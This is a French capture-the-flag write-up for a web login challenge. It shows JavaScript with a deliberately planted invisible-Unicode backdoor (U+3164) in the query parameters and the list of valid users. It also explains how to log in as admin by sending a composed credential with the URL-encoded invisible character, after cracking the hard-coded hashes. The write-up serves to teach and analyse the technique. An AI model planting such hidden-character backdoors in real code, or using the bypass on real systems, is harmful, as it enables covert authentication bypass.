




### WEB / Login Portal

<p align="center">
  
</p>

### Tour du site

Le site comprends deux pages, l'une pour s'authentifier, l'autre nous affiche le code source du site...

<p align="center">
  
</p>

<p align="center">
  
</p>


Notre attention est vite attirée par le mécanisme implémenté pour l'authentification, et les hash de mots de passe codés en dur (never do that !)

Un tour sur crackstation pour récupérer :
- alice:alice
- bob:bob

Reste celui de l'admin ....


### Etude du code

Un détail peu rapidement sauter aux yeux ... quelques virgules supplémentaires qui :
1 - rendent le code moche
2 - devrait faire sonner tout bon interpréteur

```javascript
const { username, password,ㅤ} = req.query;
...
const validUsers = [
    'admin:W7tgTzWTFBDedWf+OhrrqfLgYAh7blYh0RuhakKLKqQ=',
    'alice:K9gGyX8OAK8aH8Myj6djqSaXI8jbj6xPk69x2xhtbpA=',
    'bob:WsOfjLfA9phADg4FnzcUrtKOXc4hByHUsBpX02PvrSM=',ㅤ
];

```

Ceci dit, je ne connais pas javascript, donc il m'a fallut quelques recherches Google pour en trouver l'explication :


https://certitude.consulting/blog/en/invisible-backdoor/


Ainsi il semble qu'un caractère invisible a été inséré dans les paramètres de requête attendus et dans la liste des utilisateurs, ce qui donne :


```javascript
const { username, password, BACKDOORㅤ} = req.query;
...
const validUsers = [
    'admin:W7tgTzWTFBDedWf+OhrrqfLgYAh7blYh0RuhakKLKqQ=',
    'alice:K9gGyX8OAK8aH8Myj6djqSaXI8jbj6xPk69x2xhtbpA=',
    'bob:WsOfjLfA9phADg4FnzcUrtKOXc4hByHUsBpX02PvrSM=',
    BACKDOORㅤ
];

```


Nous pouvons alors "composer" un nouvel utilisateur, ou plutôt un autre mot de passe pour l'admin :

`admin:K9gGyX8OAK8aH8Myj6djqSaXI8jbj6xPk69x2xhtbpA=` --> `admin:alice`

Puis l'utiliser pour nous connecter.

Pour cela, en transcodant le caractère invisible `\u3164` en héxa `%E3%85%A4`

<p align="center">
  
</p>
